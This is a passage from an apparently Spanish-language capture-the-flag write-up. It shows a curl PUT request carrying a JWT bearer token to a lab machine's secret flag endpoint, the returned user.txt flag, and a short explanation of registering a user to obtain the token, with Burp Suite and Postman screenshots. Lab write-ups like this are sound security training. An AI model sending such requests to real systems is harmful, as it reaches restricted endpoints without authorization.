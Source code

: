 Acción:

```bash
curl -s -X PUT http://10.10.11.161/api/v1/user/SecretFlagEndpoint -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzUwMDE4ODAwLCJpYXQiOjE3NDkzMjc2MDAsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGFiOTgxN2MtZWM1OC00NDlhLThhMTctZmRmNjhjY2M4ZTZjIn0.s4eezZua1Wq-bhrxZ9T8HjK4K67hgQj3ad6_ketbYkE" | jq
```

Resultado:

```bash
{
  "user.txt": "7364b78e083..."
}
```

Explicación: en este endpoint logramos obtener la flag de esta máquina. Para ello hemos necesitado registrar un usuario con el método POST y luego loguernos con él para obtener su JWT y añadirlo a la solicitud de este endpoint `/docs` que mostraba la información que necesitabamos

Vemos lo mismo usando [Burp Suite](../../../../Herramientas/Burp%20Suite/BurpSuite.md)

![Captura de pantalla](./Imágenes/burpsuite_3.png)

Vemos lo mismo usando [Postman](../../../../Herramientas/Postman/Postman.md)

![Captura de pantalla](./Imágenes/postman_8.png)

---

